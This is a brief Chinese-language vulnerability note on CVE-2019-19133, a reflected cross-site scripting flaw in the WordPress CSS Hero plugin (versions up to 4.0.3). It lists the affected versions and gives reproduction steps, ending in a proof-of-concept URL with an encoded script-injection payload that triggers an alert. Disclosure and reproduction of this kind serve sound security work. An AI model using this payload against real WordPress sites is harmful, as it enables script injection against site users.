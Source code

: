 ```yaml
---
title: "（CVE-2019-19133）WordPress Plugin - CSS Hero 4.0.3 反射xss"
id: zhfly3254
---
```


# （CVE-2019-19133）WordPress Plugin - CSS Hero 4.0.3 反射xss

## 一、漏洞简介

## 二、漏洞影响

CSS Hero插件 (<= v.4.0.3)

## 三、复现过程

首先WordPress应用中确保CSS Hero Plugin安装。

poc

```
hxxp://
0-sec.org/?csshero_action=edit_page&rand=1015&foo%22%3E%3C/iframe%3E%3Cscript%3Ealert(%27Reflected%20XSS%20in%20CSS%20Hero%204.0.3%27)%3C/script%3E%3Ciframe%3Ebar 
```